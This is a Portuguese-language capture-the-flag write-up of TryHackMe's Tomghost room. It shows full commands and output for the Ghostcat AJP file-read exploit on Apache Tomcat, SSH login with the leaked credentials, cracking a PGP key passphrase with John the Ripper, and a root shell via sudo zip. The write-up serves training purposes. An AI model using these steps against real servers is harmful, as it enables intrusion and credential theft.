



# Tomghost Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/tomghost](https://tryhackme.com/room/tomghost)
> 
> **Dificuldade:** `Fácil`
> 
> **Data de Resolução:** `2026/05/09`
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Tomghost/(PT-BR)%20Tomghost%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Tomghost/(PT-BR)%20Tomghost%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
- [Extra](#Extra)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [hashID](https://psypanda.github.io/hashID/)[^hashid]: ferramenta de identificação de algoritmos de hash. Ela é capaz de identificar um único hash ou um arquivo contendo vários hashes únicos, e pode indicar o modo para usar em ferramentas como `hashcat`[^hashcat] e `JohnTheRipper`[^john], ferramentas de quebra de hash.
- [John the Ripper](https://github.com/openwall/john)[^john]: ferramenta usada para quebra de senhas, assim como o `hashcat`[^hahscat]. Além da descoberta de senhas, ele pode ser usado para a auditoria de credenciais e testes de robustez de senhas, podendo não só recuperar senhas a partir de hashes, mas também a partir de arquivos protegidos e dumps de autenticação (vindos de tokens de autenticação, por exemplo). Ferramentas como 
- [searchsploit](https://www.exploit-db.com/searchsploit)[^searchsploit]: ferramenta de pesquisa da [Exploit Database](https://www.exploit-db.com)[^exploitdb] que permite buscar por CVEs e outras vulnerabilidades de forma offline pelo terminal. As Common Vulnerabilities and Exposures[^CVE] são referências públicas a vulnerabilidades de segurança e a  [Exploit Database](https://www.exploit-db.com)[^exploitdb] contém uma lista dessas vulnerabilidades, com descrições e modos de replicar. O `searchsploit`[^searchsploit] permite que o processo de busca seja feito rapidamente por meio do terminal e é muito utilizado em contextos de penetration tests e CTFs.
- [metasploit](https://www.metasploit.com/)[^metasploit]: framework para penetration testing, suportando todas as suas fases, desde coleta de informações até pós-exploração.  Essa ferramenta automatiza a descoberta, exploração, entrega de payloads, obtenção de shells, dentre outros, ou seja, é muito útil para agilizar o processo de pentesting e CTFs.

Bem como recursos como:
- [GTFOBins](https://gtfobins.org/)[^gtfo]:  lista de executáveis estilo Unix que permitem ultrapassar restrições de segurança em sistemas vulneráveis, muito útil para realizar escalação de privilégio. Assim como o site anterior, contém um compilado de funções para várias situações.
- [Crackstation](https://crackstation.net/)[^crackstation]: site de quebra de hashes por meio de lookup tables, tabelas que fazem uma relação entre hahses e suas respectivas senhas, podendo assim encontrar hashes de forma rápida, contanto que estejam na tabela. Pode ser útil caso o `hashcat`[^hashcat] não consiga quebrar a hash por exaustão.


## Resolução do CTF

O CTF Tomghost, disponível no TryHackMe, é um desafio de dificuldade fácil que requer a exploração de um sistema para achar a flag de usuário e de root. Neste CTF foi-se utilizada uma vulnerabilidade do Apache Tomcat[^tomcat], descoberta com o `searchsploit`[^searchsploit]. 

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap -T5 -A vul.net
```

em que `-T5` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts. Dados relevantes da enumeração estão a seguir:

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-09 13:56 -0400
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
#[...]
```

em que percebi que o sistema era baseado em Apache Tomcat, com as portas abertas sendo 22 (ssh), 53 (serviço DNS protegido por `tcpwrapped`), 8009 (ajp13) e 8080 (http, Apache Tomcat). Como o serviço http estava disponível, decidi explorá-lo inicialmente. Enquanto eu abria a página web, já decidi executar um comando no `gobuster`[^gobuster], para adiantar a enumeração de diretórios:

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/common.txt -u http://vul.net:8080 -x php,html,txt -t 50
```

Este comando busca os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). A porta foi especificada para 8080, pois era onde o serviço http estava aberto (caso contrário, iria para o padrão da porta 80 e não funcionaria. O resultado final obtido foi o seguinte:

```sh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
docs                 (Status: 302) [Size: 0] [--> /docs/]
examples             (Status: 302) [Size: 0] [--> /examples/]
manager              (Status: 302) [Size: 0] [--> /manager/]
RELEASE-NOTES.txt    (Status: 200) [Size: 6898]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Os resultados finais dessa enumeração serão discutidos durante a fase de exploração, pois comecei a exploração ao mesmo tempo que executei o `gobuster`[^gobuster].
### Exploração

Ao acessar `http://vul.net:8080`, deparei-me com a página padrão do Apache Tomcat, que não continha nenhuma informação relevante:



Os outros diretórios encontrados no `gobuster`[^gobuster] também não ofereciam informações úteis. Sabendo que a versão do Apache Tomcat era `9.0.3` (tanto pelo `nmap`[^nmap], quanto pela página padrão em `http://vul.net:8080`), decidi procurar por uma vulnerabilidade.

Usando o `searchsploit`[^searchsploit], pesquisei por exploits que poderiam ser usados pelo `metasploit`[^metasploit] (por isso busquei também pela palavra "metasploit") e encontrei as seguintes vulnerabilidades:

```sh
$ searchsploit apache tomcat metasploit
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                         | multiple/webapps/49039.rb
Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit)                    | windows/remote/47073.rb
Apache Tomcat Manager - Application Deployer (Authenticated) Code Execution (Metasploit)                | multiple/remote/16317.rb
Apache Tomcat Manager - Application Upload (Authenticated) Code Execution (Metasploit)                  | multiple/remote/31433.rb
Apache Tomcat mod_jk 1.2.20 - Remote Buffer Overflow (Metasploit)                                       | windows/remote/16798.rb
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Analisando um pouco sobre cada uma, vi no site oficial do Apache Tomcat que a vulnerabilidade explorada pelo `Ghostcat`[^edb-49039] (CVE-2020-1938) era compatível com a versão `9.0.3`:



Essencialmente, os sistemas com Apache Tomcat nas versões especificadas na CVE (dentre elas, a `9.0.3`) que utilizassem o Apache JServ Protocol (AJP) tinham uma conexão a esse serviço ativa por padrão (sendo que o recomendado seria desativá-la caso não fosse necessária). Como o Tomcat trata essas conexões AJP com maior confiança que conexões similares (como HTTP), era possível aproveitar da conexão aberta por padrão para retornar arquivos arbitrários de qualquer parte da aplicação, processar arquivos na própria aplicação dentre outros. 

Ao procurar no `metasploit`[^metasploit], encontrei o exploit e configurei o `RHOST` para o IP da máquina-alvo:

```
msf > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf > use 0
msf auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                         /basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)


View the full module info with the info, or info -d command.

msf auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS vul.net
RHOSTS => vul.net
```

O exploit acima[^edb-49039] justamente usa dessa vulnerabilidade (atacando a conexão do AJP, na porta `8009`) para retornar arquivos. Por padrão, já estava configurado recuperar o arquivo `web.xml`, um arquivo contendo informações de configuração e desenvolvimento para aplicações web[^web], e que, assim como outros diversos arquivos de um sistema, pode conter informações sensíveis esquecidas nele, que foi esse caso. O resultado da sua execução foi o seguinte:

```
msf auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.66.153.247
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:<STRING>
  </description>

</web-app>
[+] 10.66.153.247:8009 - File contents save to: /home/kali/.msf4/loot/20260509141129_default_10.66.153.247_WEBINFweb.xml_535632.txt
[*] Auxiliary module execution completed
```

Como dito anteriormente, encontrei esquecidos no arquivo `web.xml` um conjunto de nome de usuário (`skyfuck`) e um outro valor (`<PASSWORD_1>`, sequência de números e letras), possivelmente um hash da senha do usuário. Quando, porém, tentei identificar esse valor, tanto com `hashid`[^hashid] quanto na `Crackstation`[^crackstation], não tive sucesso em identificar a hash:

```sh
hashid '<PASSWORD_1>'
Analyzing '<PASSWORD_1>'
[+] Unknown hash
```



Tendo falhado em ambos os casos, assumi que o valor realmente não era um hash e sim uma senha. Dito e feito, ao tentar acessar com essas credenciais no `ssh`, fui bem sucedido:

```sh
ssh -p 22 skyfuck@vul.net 
skyfuck@vul.net's password: # <PASSWORD_1>
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

skyfuck@ubuntu:~$ whoami
skyfuck
skyfuck@ubuntu:~$ pwd
/home/skyfuck
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

Listando os conteúdos da pasta encontrei um arquivo `.pgp` e um `.asc`. O arquivo `.pgp` é um arquivo criptografado por "Pretty Good Privacy"[^pgp], que pode ser acompanhado por uma chave privada, como nesse caso, em um arquivo `.asc`. Assim, poderia ser útil tentar usar essa chave para abrir o arquivo `credential.pgp`, mas para isso eu precisava descriptografar o arquivo `.asc` para obter a passphrase do arquivo `.pgp`. Copiei os conteúdos do arquivo `tryhackme.asc` para um arquivo local e, com o comando `gpg2john`, extraí a hash dele para `hash.txt`, de modo que eu consegui quebrá-la usando o `JohnTheRipper`[^john](com a wordlist `rockyou.txt`[^rockyou]):

```sh
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD_2>        (tryhackme)     
1g 0:00:00:00 DONE (2026-05-09 14:21) 10.00g/s 10720p/s 10720c/s 10720C/s chinita..<PASSWORD_2>
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

No momento em que obtive a `<PASSWORD_2>` a partir de `tryhackme.asc`, importei a chave e consegui abrir o arquivo `credential.pgp` com o `gpg`(GNU Privacy Guard). Ao descriptografar o arquivo `credential.pgp`, a senha foi pedida, então inserí-la e descobri um par que parecia ser um usuário e senha:

```sh
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

skyfuck@ubuntu:~$ gpg -d credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:<PASSWORD_3>
```
De fato, ao procurar por usuários em `/home` encontrei um usuário chamado "merlin". Assim, troquei de usuário e inseri a senha que encontrei em `credential.pgp`:
```sh
skyfuck@ubuntu:~$ls /home
merlin  skyfuck
skyfuck@ubuntu:~$ su merlin
Password: # <PASSWORD_3>
merlin@ubuntu:/home/skyfuck$ whoami
merlin
merlin@ubuntu:/home/skyfuck$ cd ..
merlin@ubuntu:/home$ ls
merlin  skyfuck
```

Ao entrar no diretório de merlin e listar os seus conteúdos, encontrei logo a `<USER_FLAG>` em `user.txt`:

```
merlin@ubuntu:~$ ls
user.txt
merlin@ubuntu:~$ cat user.txt
<USER_FLAG>
```
### Escalação de Privilégios

Por fim, era necessário escalar privilégios e encontrar a flag em `/root`. Para isso, testei no terminal as permissões do usuário:

```sh
merlin@ubuntu:/home$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

O usuário "merlin" tinha acesso privilegiado para executar o `zip`, sem a necessidade de senha (apesar de eu ter a senha do usuário). Com essa abertura, baseado em o que site GTFObins[^gtfo] fornecia, executei os seguintes comandos para escalar privilégios:

```
merlin@ubuntu:/home$ TF=$(mktemp -u)
merlin@ubuntu:/home$ sudo zip TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```

Ao listar os conteúdos de root, encontrei o arquivo, `root.txt`, que continha a `<ROOT_FLAG>`:

```
# cd /root      
# ls
root.txt  ufw
# cat root.txt
<ROOT_FLAG>
```

e finalizei o CTF.
## Extra

Vale notar que também era possível acessar os conteúdos de user.txt com o usuário "skyfuck":

```sh
skyfuck@ubuntu:~$ cd /home/merlin
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
<USER_FLAG>
```

Apesar disso, "skyfuck" não tinha permissão para executar o comando `sudo`, então, ainda sim, seria mais prático escalar privilégios com o usuário "merlin", então a troca de usuário ainda seria necessária:

```
skyfuck@ubuntu:/home/merlin$ sudo -l
[sudo] password for skyfuck: 
Sorry, user skyfuck may not run sudo on ubuntu.
```
## Conclusão

O CTF Tomghost permitiu explorar uma vulnerabilidade listada pela Exploit Database do tomcat que conseguia extrair arquivos do sistema, o que permitiu encontrar dados sensíveis e obter acesso a usuários do sistema. A partir disso, foi possível descobrir a senha a partir de uma chave privada e abrir o arquivo criptografado com Pretty Good Privacy e obter credenciais para uma conta que poderia escalar privilégios a partir do comando `zip`, e, assim, achar todas as flags desse desafio.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^searchsploit]: Searchsploit: [https://www.exploit-db.com/searchsploit](https://www.exploit-db.com/searchsploit)
[^exploitdb]: Exploit Database (Exploit-DB): [https://www.exploit-db.com](https://www.exploit-db.com)
[^hashid]: Hashid: [https://psypanda.github.io/hashID/](https://psypanda.github.io/hashID/)
[^hashcat]: Hahscat: [https://hashcat.net/](https://hashcat.net/)
[^john]: JohnTheRipper: https://www.openwall.com/john/
[^CVE]: Sobre CVEs: [https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures](https://en.wikipedia.org/wiki/Common_Vulnerabilities_and_Exposures)
[^metasploit]: Metasploit: [https://www.metasploit.com/](https://www.metasploit.com/)
[^gtfo]: GTFOBins: [https://gtfobins.org/](https://gtfobins.org/)
[^crackstation]: Crackstation: [https://crackstation.net/](https://crackstation.net/)
[^tomcat]: Site do Apache Tomcat: [https://tomcat.apache.org/](https://tomcat.apache.org/)
[^EDB-49039]: AJP 'Ghostcat' File Read/Inclusion (49039): [https://www.exploit-db.com/exploits/49039](https://www.exploit-db.com/exploits/49039)
[^web]: Sobre `web.xml`: [https://www.ibm.com/docs/en/was/8.5.5?topic=applications-webxml-file](https://www.ibm.com/docs/en/was/8.5.5?topic=applications-webxml-file)
[^pgp]: Sobre arquivos `.pgp`: [https://en.wikipedia.org/wiki/Pretty_Good_Privacy](https://en.wikipedia.org/wiki/Pretty_Good_Privacy)
[^rockyou]: RockYou:
	- Sobre Rockyou e o vazamento de suas senhas: [https://en.wikipedia.org/wiki/RockYou](https://en.wikipedia.org/wiki/RockYou)
	- Wordlist `rockyou.txt`: [https://weakpass.com/wordlists/rockyou.txt](https://weakpass.com/wordlists/rockyou.txt)